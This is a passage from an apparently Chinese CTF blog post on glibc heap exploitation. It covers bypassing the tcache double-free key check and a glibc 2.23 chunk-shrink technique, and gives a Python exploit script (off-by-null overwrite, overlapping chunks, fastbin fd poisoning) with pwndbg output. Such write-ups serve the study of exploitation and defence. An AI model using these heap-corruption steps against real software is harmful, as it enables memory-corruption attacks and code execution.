 ![](https://res.cloudinary.com/v1mecn/image/upload/v1583913047/blog/Snipaste_2020-03-11_15-50-14_bpo6sp.png)

![](https://res.cloudinary.com/v1mecn/image/upload/v1583913393/blog/Snipaste_2020-03-11_15-56-18_wcxiio.png)

然后`free`掉chunk1

![](https://res.cloudinary.com/v1mecn/image/upload/v1583913616/blog/Snipaste_2020-03-11_16-00-00_lwxnzc.png)

注意``tcache_perthread_struct`中的`counts`数组是`char`型的

再`free`掉chunk2

![](https://res.cloudinary.com/v1mecn/image/upload/v1583913861/blog/Snipaste_2020-03-11_16-04-06_wwawpy.png)

再`malloc` chunk2

![](https://res.cloudinary.com/v1mecn/image/upload/v1583914084/blog/Snipaste_2020-03-11_16-07-49_ctma6f.png)

最后`malloc` chunk1

![](https://res.cloudinary.com/v1mecn/image/upload/v1583914231/blog/Snipaste_2020-03-11_16-09-57_rsn6fs.png)

所以 要是能有办法把已经在`tcache`链表中的chunk的`key`改掉，还是可以打`tcache double free`。



### Chunk Extend/Shrink

#### Shrink in 2.23

先复习一下传统的`Chunk Shrink`

这里借用[大佬博客]([https://veritas501.space/2017/07/25/%E5%9B%BE%E5%BD%A2%E5%8C%96%E5%B1%95%E7%A4%BA%E5%A0%86%E5%88%A9%E7%94%A8%E8%BF%87%E7%A8%8B/](https://veritas501.space/2017/07/25/图形化展示堆利用过程/))的一张图

![](https://res.cloudinary.com/v1mecn/image/upload/v1583925963/blog/jarvis_wp_95bcea49439afbbed824177750e51673_ykx9bd.png)



步骤是

```python
add(0, 0x18)
add(1, 0x108)
add(2, 0x138)  # small_chunk

edit(1, 0x108, b'\x00' * 0xf0 + p64(0x100) + p64(0x21))  # 0x100 is fake prev_size
free(1)

edit(0, 0x19, b'\x00' * 0x19)  # off-by-null
add(3, 0x88)
add(4, 0x68)  # overlap_chunk
free(3)
free(2)

# fast bin attack
free(4)
add(5, 0x108)
edit(5, 0x108, b'\x00' * 0x88 + p64(0x70) + p64(0x12345678))
"""
pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x20fa0b0 ◂— 0x12345678
```